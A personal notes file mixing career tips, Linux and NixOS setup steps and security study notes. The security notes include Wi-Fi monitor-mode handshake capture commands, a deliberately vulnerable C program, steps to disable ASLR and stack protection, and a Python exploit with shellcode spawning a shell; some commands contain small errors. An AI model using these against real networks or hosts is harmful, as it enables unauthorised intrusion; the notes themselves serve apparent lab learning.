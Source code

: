 = random
:stem:

== xref:avviki.adoc[avviki]

making my own antora vim wiki plugin thingy

== information security

xref:information-security.adoc[Information Security]

== job salary expectations when listed in job posting

when asked these questions:

[qanda]
What are your salary expectations for this role?::
Mention the salary range in the job description.
Ask if it's still the case.

Yes, does that align with your expectations?::
Mention what you want.
If you want a higher salary, mention that a higher end aligns with your expectations.

We'd love to offer you a job. Do you accept?::
Don't answer on the spot.
Don't ask for the pay.
Don't negotiate.
First thank them for the job offer, second be grateful to join the team, third ask them for the offer letter in email so that you can review the specifications.

Last thing to do is to be grateful again.
Then push for higher end of the salary if it's not enough.

== firejail

if i want to program to use specific folder, do.

----
firejail --private=~/some_directory ...
----

== life lessons maybe?

[NOTE]
.*Here’s 32 things I’ve learned that I hope help you in your journey*:
====

. Nothing worthwhile comes easy. 
. Work on a passion project, even just 30 minutes a day. It compounds.
. Become a lifelong learner (best tip).
. Working from 7am to 7pm isn’t productivity. It’s guilt.
. To be really successful become useful.
. Like houses in need of repair, problems usually don’t fix themselves.
. Don’t say something to yourself that you wouldn’t say to someone else. 
. Try to spend 12 minutes a day in quiet reflection, meditation, or prayer.
. Try new things. If it doesn’t work out, stop. At least you tried.
. You can’t control everything. Focus on what you can control.
. If you think you have it tough, look around.
. It's only over when you say it is.
. ...
====

Source: link:https://www.reddit.com/r/lifehacks/comments/1bgw44k/i_turned_72_today/[Reddit]


== linux maybe


`ip a show <interface>`

running root on gui in terminal: `sudo -E <command>` ref: https://wiki.archlinux.org/title/Running_GUI_applications_as_root#Wayland

udev rule

checking if wifi card supports monitor mode:
1. put into monitor mode
2. check if there's monitor mode
3. test packet injection with `aireplay-ng --test <interface>`


starting monitor mode: `airmon-ng start <interface>`
checking if monitor mode: `iwconfig` and find the `Mode:Monitor`
use `airodump-ng <interface>`  to see all the access points

make sure to `airmon-ng check kill`

### for sniffing the network

`airodump-ng --bssid <ap_bssid> --essid <ap_name> -c <channel> -w <filename> <interface>`

> [!NOTE]- This is wrong
> if your card can't capture the data, it will only show `clear-to-send` and `request-to-send` and no `Acknowledgement`. a successful sniff must have both `Acknowledgement` and `WPA Handshake` in [[airodump-ng]]
it needs CTS -> RTS -> Qos Data

targeting a specific network requires specifying the [[BSSID]]. 


or an alternative to that above would be:
ifconfig wlan0 down
airmon-ng check kill
iwconfig wlan0 mode monitor
ifconfig wlan0 up
iwconfig

```
wlan.fc.type_subtype in {0x00}
```

# iw

iw dev:: show which interface it is related to ``phy``

## find if it supports AP

.$ iw list
----
Supported interface modes:
	 * IBSS
	 * managed
	 * **AP**
	 * AP/VLAN
	 * WDS
	 * monitor
	 * mesh point
----


#python 

[python]
----
import sys

args = sys.argv
----

*sys.args* will always contain the filename

better use `argparse` for parameters with arguments

[python]
----
import argparse

parser = argparse.ArgumentParser(description="description here")
parser.add_argument("--name", help="set name")
args = parser.parse_args()
----

to use flags, add ``action="store_true"`` inside the argument. default values can also be set with ``default="value"``.

``metavar`` for changing help argument string



== Fix windows 10 boot

select the disk with ``diskpart`` then select the system volume. if gpt use ``bcdboot``. if mbr, use ``bootrec``. assign a drive letter.
bcdboot: ``bcdboot C:\windows /s V: /f UEFI``

== xref:stack-smashing.adoc[Stack Smashing]

[c]
----
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main() {
    char u[16];
    volatile int p = 0;
    scanf("%s", u);
    if (p != 0) {
        printf("How u do dat?\n");
    }
    else {
        printf("Nope.\n");
    }
    return 0;
}
----

compile: ``gcc vuln.c -o vuln -fno-stack-protector -ggdb``

. gdb vuln
. disas main (not needed)
. list 11
. break 10
. break 11
. r <<< $(python -c "print('A'*40)") this should return a segmentation fault
note the memory address: 

----
Program received signal SIGSEGV, Segmentation fault.
0x00005555555551a0 in main () at vuln.c:17
----
. confirm with `info reg` or `p/x $rip`



remove a breakpoint: ``del #``

* x/16x buf
* i f

== Run Obsidian in xref:wayland.adoc[Wayland]

----
OBSIDIAN_USE_WAYLAND=11 obsidan -enable-features=UseOzonePlatform -ozone-platform=wayland
----

== aslr


disabling: ``setarch $(uname -m) -R <ELF executable>``
permanently: ``echo 0 | sudo tee /proc/sys/kernel/randomize_va_space``

== more python stack smashing

[python]
----

import sys

OFFSET      = b"\x41"
EIP         = b"\x38\xcd\xff\xff" # PLEASE FIND THE CORRECT EIP FOR EVERY COMPUTER MEMORY ADDRESS. DO NOT USE THIS ADDRESS SINCE IT'S DIFFERENT FOR ALL COMPUTERS
NOP         = b"\x90" 

SHELLCODE   = b"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
SHELLCODE2  = b"\x31\xc0\x40\x89\xc3\xcd\x80"

exploit     = SHELLCODE2 + NOP*5 + EIP
sys.stdout.buffer.write(exploit)
----

== xref:nixos.adoc[NixOS]

== updating

``nixos-rebuild switch --upgrade``

=== partitioning the drive

1. Set partition table to GPT

```sh
#parted /dev/<device> -- mklabel gpt
parted /dev/vda -- mklabel gpt
```

2. Create boot partition

```sh
#parted /dev/<device> -- mkpart ESP fat32 1MiB 512MiB
parted /dev/vda -- mkpart ESP fat32 1MiB 512MiB
```

3. Set ESP boot flag

```sh
#parted /dev/<device> -- set <partition number> <partition label> on
parted /dev/vda -- set 1 ESP on
```

4. Create root and home partition

```sh
#parted /dev/<device> -- mkpart root <file system> <start> end>
parted /dev/vda -- mkpart root btrfs 512MiB 32.5MiB
parted /dev/vda -- mkpart home btrfs 32.5GiB 100%
```

simpler version

```sh
parted /dev/vda
mklabel gpt
mkpart ESP fat32 1MiB 512MiB
set 1 ESP on
mkpart root btrfs 512MiB 32.5GiB
mkpart home btrfs 32.5GiB 100%
```

`print` to verify

=== formatting with luks encryption

1. format boot partition (no encryption)

```sh
mkfs.fat -F 32 -n boot /dev/vda1
```

2. format root and home partitions with luks

```sh
#cryptsetup --verify-passphrase -v luksFormat <partition>
cryptsetup --verify-passphrase -v luksFormat /dev/vda2
cryptsetup --verify-passphrase -v luksFormat /dev/vda3
```

> [!NOTE]
> This does not include a label to the luks container. Use `cryptsetup config <luks container> --label <label>` to add a label.

3. mount encrypted partitions

```sh
#cryptsetup open <partition> <label>
cryptsetup open /dev/vda2 root_luks
cryptsetup open /dev/vda2 home_luks
```

4. partition home and root

```sh
#mkfs.btrfs -L <label> <luks dev mapper name>
mkfs.btrfs -L nixos /dev/mapper/root_luks
mkfs.btrfs -L home /dev/mapper/home_luks
```
i use `root` and `home` to have separate partition labels. this causes an issue in booting if labels are the same. the labels here might be used by `/dev/disk/by-label/`.

5. mounting root and home partitions

```sh
#mount -t <file system> /dev/mapper/<partition> </mnt locations>
mount -t btrfs /dev/mapper/root_luks /mnt
mount -t btrfs /dev/mapper/home_luks /mnt/home
```

do `mkdir /mnt/home` if directory does not exist

6. creating subvolumes

```sh
btrfs subvolume create /mnt/root
btrfs subvolume create /mnt/nix
btrfs subvolume create /mnt/persist
btrfs subvolume create /mnt/log
btrfs subvolume snapshot -r /mnt/root /mnt/root-blank
```

7. unmount

```sh
umount /mnt/home
umount /mnt
```

8. mount root and home, and others

```sh
mount -o subvol=root,compress=zstd,noatime,ssd,space_cache=v2 /dev/mapper/root_luks /mnt
```

9. create directories for mount point

```sh
mkdir /mnt/home
mkdir /mnt/nix
mkdir /mnt/persist
mkdir -p /mnt/var/log
```

10. mount home and subvolumes

```sh
mount -o compress=zstd,relatime,ssd,space_cache=v2 /dev/mapper/home_luks /mnt/home
mount -o subvol=nix,compress=zstd,noatime,ssd,space_cache=v2 /dev/mapper/root_luks /mnt/nix
mount -o subvol=persist,compress=zstd,noatime,ssd,space_cache=v2 /dev/mapper/root_luks /mnt/persist
mount -o subvol=log,compress=zstd,noatime,ssd,space_cache=v2 /dev/mapper/root_luks /mnt/var/log
```

11. mount boot

```sh
mkdir /mnt/boot
#mount /dev/<partition> /mnt/boot
mount /dev/vda1 /mnt/boot
```

12. generate nixos-config

```sh
nixos-generate-config --root /mnt
```

== Section 19 of RA 11055


====
Any person or entity who, without just and sufficient cause, shall refuse to accept, acknowledge and/or recognize the PhilID or PSN, subject to authentication, as the only official identification of the holder/possessor thereof shall be fined in the amount of Five hundred thousand pesos (P500,000.00).
====



== idk

.$ cat /proc/mounts
[sh]
----
/dev/nvme0n1p2 / btrfs rw,noatime,compress=zstd:3,ssd,discard=async,space_cache=v2,subvolid=265,subvol=/@ 0 0

/dev/nvme1n1p1 /birb btrfs rw,relatime,compress=zstd:3,ssd,discard=async,space_cache=v2,subvolid=5,subvol=/ 0 0

/dev/nvme0n1p3 /home btrfs rw,noatime,compress=zstd:3,ssd,discard=async,space_cache=v2,subvolid=256,subvol=/@home 0 0

/dev/nvme0n1p1 /boot/efi vfat rw,relatime,fmask=0022,dmask=0022,codepage=437,iocharset=ascii,shortname=mixed,utf8,errors=remount-ro 0 0
----


* `-fno-stack-protector` disables stack smashing protection.
* `-m32` generate 32-bit architecture code.
* `-mpreferred-stack-boundary=2` stack boundary should be aligned in 4 bytes.
* `-ggdb` generate debug information compatible with the GDB debugger.
* `-fno-pie` disables position-independent executable (PIE) generation which randomizes the base address of the executable.
* `-z execstack` sets the stack as executable.



stopping monitor mode 
1. `ip link set <interface> down`
2. `iwconfig <interface> mode managed` or `iw dev <interface> set type managed`
3. `ip link set <interface> up`
4. restart networking services

check ***iwconfig***. 



```sh
alias memrss 'ps -eo comm,pmem,rss,etime --sort -rss | numfmt --header --from-unit=1024 --to=iec --field 3 | column -t | head -n20'
```



#hyprland #xdg-desktop-portal
screenshare not working - restart xdg-desktop-portal-hyprland
```sh
systemctl restart --user xdg-desktop-portal-hyprland.service
```

== python trace memory usage


[python]
----
import tracemalloc
tracemalloc.start()
# some function here or __main__()
print(tracemalloc.get_traced_memory())
tracemalloc.stop()
----

== intersting


#zram
using zram-generator
use only 50% of max ram
`/etc/systemd/zram-generator.conf`

#ssh 
when switching ssh keys
```sh
eval "$(ssh-agent -s)"
ssh-add <rsa>
```
example: `eval "$(ssh-agent -s)" && ssh-add ~/.ssh/homeserver`



https://github.com/v1s1t0r1sh3r3/airgeddon/wiki/Cards%20and%20Chipsets #airgeddon


checking for Virtual Interface capability:

```
iw list | grep "Supported interface modes" -A 8
```

*note: run with sudo if not working*

should output `AP/VLAN` (not just `AP`) for full support of [[Virtual Interface|VIF]]


avoid these chipsets:
- rtl8814au
- rtl8812au
- rtl8821/11au

https://github.com/morrownr/USB-WiFi/issues/314


list wifi devices: `nmcli device`


---

#nixos-installation 

1. connect to wifi using **wpa_cli**
2. partition the disk with **parted** (esp, root, home). make sure to use **BTRFS**
3. use **Full-Disk Encryption**
4. create subvolumes (nix, persist, log)
5. mount them



1. malware analysis lab
2. ids/zeek network monitoring
	1. snort
	2. suricata
3. metasploitable
4. wazuh to soar implementation
	1. setup wazuh, at least one agent
	2. integrate shuffle platform with automation




== common security frameworks:

- SOC 2
- ISO 270012
- NIST CSF2
- HIPAA2
- PCI DSS2
- HITRUST2
- COBIT2
- NIST 800-53
- NIST 800-171


== learn better

* prediction
* simulation
* analysis


== another random


-  preimage attacks
-  hash collision

security keys for security control
- https://pauljerimy.com/security-certification-roadmap/
- https://training.dfirdiva.com/listing-category/it-cybersecurity
- https://www.cyberdegrees.org/resources/free-online-courses/#faq


---

#cmsc176dl

limitations of single-layer networks

- limited expressiveness
	- can only perform well in linear relationships
- sensitivity to noise data
	- will try to fit because of the outlier

solution: multi-layer neural networks

Feedforward network - info flows into one direction, from input to output


== magic hehe

Relating magical classifications to digital technology and computer science can provide interesting parallels:

*Alchemist*:: Comparable to software engineers who experiment with different tools, libraries, or frameworks to create innovative solutions and optimize performance or efficiency in software development.
*Arcanist*:: Similar to skilled software architects and theoreticians who possess deep knowledge of abstract computational concepts and principles. They specialize in understanding the fundamental theories behind computing, such as algorithms, data structures, and computational complexity. Arcanists excel in designing high-level system architectures, crafting elegant solutions to complex problems, and pushing the boundaries of computational knowledge. They are less focused on specific programming languages or frameworks and more concerned with the overarching principles that govern computation.
*Channeler*:: Resembles data engineers who build pipelines and workflows to extract, transform, and load data from various sources, channeling it for analysis, visualization, or storage purposes.
*Elementalist*:: Similar to software engineers who specialize in specific programming languages or frameworks, such as Java, Python, or React. Each element represents a different tool or technology used in software development.
*Enchanter/Enchantress*:: Similar to software testers who evaluate and enhance the quality of software products by identifying bugs, defects, or inconsistencies and ensuring they meet user expectations.
*Healer/White Mage*:: Resembles cybersecurity specialists who focus on identifying and remedying vulnerabilities in digital systems to protect them from malicious attacks and ensure their health and integrity.
*Hexer/Curselord*:: Resembles ethical hackers or penetration testers who simulate cyber-attacks to identify weaknesses and vulnerabilities in digital systems, exposing them to potential harm or exploitation.
*Illusionist*:: Resembles UX/UI designers who create visually appealing interfaces and experiences that may deceive or manipulate user perceptions. They use design elements to guide user interactions and create immersive digital environments.
*Necromancer*:: Comparable to forensic analysts who investigate digital artifacts and traces to reconstruct events or uncover evidence of past activities within computer systems or networks.
*Seer/Oracle*:: Similar to data scientists who analyze large datasets and use predictive analytics to forecast future trends or gain insights into hidden patterns and relationships within the data.
*Shapeshifter*:: Resembles software architects who adapt and transform system designs to meet changing requirements or accommodate different platforms, environments, or technologies.
*Sorcerer/Sorceress*:: Comparable to software developers who use their knowledge and skills to craft complex programs, applications, or systems. They wield various programming techniques and methodologies to achieve their goals.
*Summoner*:: Comparable to cloud architects who provision and manage virtual resources and services from cloud providers, summoning computing power and storage on demand.
*Telekinetic*:: Similar to experts in robotic process automation (RPA) who develop algorithms and scripts to automate tasks and manipulate digital objects without direct physical interaction.
*Teleporter*:: Comparable to network engineers who design and manage systems for data transmission and communication, enabling instant connectivity and information exchange across vast distances.
*Warder*:: Similar to system administrators or DevOps engineers who establish security measures and protocols to protect digital assets and ensure the stability and reliability of IT infrastructure.


In the context of the relationship between magic and computer science, the analogy often draws parallels between the principles of magic and the concepts of computer science. Here's how some aspects of magic can be related to computer science:

*Spells as Algorithms*:: In magic, spells are sequences of actions or incantations that produce a desired effect. Similarly, algorithms in computer science are step-by-step procedures designed to solve specific problems or achieve tasks.

*Mana as Computational Resources*:: Mana, the magical energy used to cast spells, can be likened to computational resources in computer science, such as CPU power, memory, or bandwidth. Both mana and computational resources are finite and must be managed efficiently to achieve desired outcomes.
*Spellcasting as Programming*:: The act of casting a spell involves specifying the desired outcome and executing the necessary steps to achieve it. This process is akin to writing and executing code in computer programming, where programmers define instructions for a computer to follow to perform tasks.
*Magical Circles as Software Environments*:: Magical circles or runes, used in some magical practices to contain and control magical energy, can be compared to software environments or development frameworks in computer science. They provide a controlled space for performing magical operations or executing code.
*Magical Devices as Computing Devices*:: Magical artifacts or devices, such as wands, staves, or amulets, serve as tools for channeling and controlling magical energy. Similarly, computing devices like computers, smartphones, and tablets are tools for processing and manipulating digital information.
*Spellbooks as Code Repositories*:: Spellbooks, repositories of magical knowledge containing instructions for casting spells, can be likened to code repositories in computer science, where programmers store and manage code for various projects.

== malware analysis

indicator of compromise:: (ioc) artifacts left behind by malwares


== Archiving and compression

=== tar

Flags

J:: Uses `xz`
z:: Uses `gzip`
v:: verbose
c:: compress
x:: extract

== sqlite3

=== exporting from db to csv

----
.mode csv
.header on
.output output.csv
SELECT * FROM table;
.quit
----
